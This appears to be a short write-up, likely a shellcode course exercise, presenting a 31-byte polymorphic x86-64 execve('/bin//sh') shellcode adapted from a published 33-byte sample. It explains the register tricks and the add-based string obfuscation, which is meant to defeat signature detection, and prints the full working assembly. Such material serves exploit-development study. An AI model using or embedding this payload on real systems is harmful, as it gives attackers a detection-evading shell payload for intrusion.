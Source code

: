 # Polymorphic version of a 33 byte execve shellcode

Original version:
```
http://shell-storm.org/shellcode/files/shellcode-76.php
```

This post describes a polymorphic version of a 33 byte execve shellcode.
My polymorphic version is 31 bytes in size and thus 2 bytes shorter then its original version.

## Changes

1. I used ```cdq``` in order to zero out rdx.
2. The original version uses ```shr``` to obfuscate the /bin/sh string. I changed this obfuscation by moving hex(/bin/sh) - 0x13377331 in rbx and then adding 0x13377331 again to deobfuscate at runtime.

## Asm
```
; Polymorphic shellcode version of http://shell-storm.org/shellcode/files/shellcode-76.php
; Original size: 33 bytes
; Polymorphic size: 31 bytes


global _start
section .text
_start:

    xor rax, rax ; clear out rax
    cdq          ; clear out rdx
    push rax
    pop rsi

    mov rbx, 0x68732f2f5b31eefe ; Some string obfuscation
    add rbx, 0x13377331

    push rax
    push rbx

    push rsp
    pop rdi ; rdi points to /bin/sh

    mov al, 0x3b
    syscall


```
